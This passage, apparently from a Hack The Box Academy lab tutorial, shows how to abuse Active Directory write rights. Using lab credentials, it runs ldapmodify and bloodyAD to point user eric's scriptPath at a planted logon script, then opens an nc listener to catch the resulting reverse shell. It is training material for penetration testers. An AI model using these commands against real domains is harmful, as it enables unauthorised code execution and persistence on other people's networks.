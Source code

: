 Then, to apply the change, we will use `ldapmodify`, passing to it the `LDIF` file with the `-f` flag:

```shell
anas21@htb[/htb]$ ldapmodify -H ldap://10.129.229.224 -x -D 'david@inlanefreight.local' -w 'SecurePassDav!d5' -f logonScript.ldif
```

To ensure that the attribute has been updated, we will use [ldapsearch](https://docs.ldap.com/ldap-sdk/docs/tool-usages/ldapsearch.html) to retrieve the value of `eric`'s `scriptPath`:

```shell
anas21@htb[/htb]$ ldapsearch -LLL -H ldap://10.129.229.224 -x -D 'david@inlanefreight.local' -w 'SecurePassDav!d5' -b "DC=inlanefreight,DC=local" "(sAMAccountName=Eric)" scriptPath
```

From `ldapsearch`'s output, we will know that `ldapmodify` has successfully updated the attribute.
#### bloodyAD

[bloodyAD](https://github.com/CravateRouge/bloodyAD) is an AD privilege escalation command-line utility that allows us to set and get values of objects' attributes in addition to many other operations.
##### Installation

We can use `pip` to install `bloodyAD` from [PyPi](https://pypi.org/project/bloodyAD/):

```c
anas21@htb[/htb]$ /usr/bin/pip install bloodyAD
```

##### Updating Eric's scriptPath

Then, we will use the `set object` command on `eric`'s `scriptPath`, setting it to point to the payload file we implanted in the "EricsScripts" folder we found on the domain controller:

```shell
anas21@htb[/htb]$ bloodyAD --host "10.129.229.224" -d "inlanefreight.local" -u "david" -p 'SecurePassDav!d5' set object eric scriptPath -v 'EricsScripts\logonScript.bat'
```

To ensure that `bloodyAD` updated the attribute accordingly, we will use `get object` (instead of `set object`) and pass `scriptPath` for the `--attr` flag:

```shell
anas21@htb[/htb]$ bloodyAD --host "10.129.229.224" -d "inlanefreight.local" -u "david" -p 'SecurePassDav!d5' get object eric --attr scriptPath
```

From `bloodyAD`'s output, we will know it has successfully updated the attribute.

### Step 4

Once the user `eric` logs onto the domain, we will receive the reverse shell:

```shell
anas21@htb[/htb]$ nc -nvlp 9001
```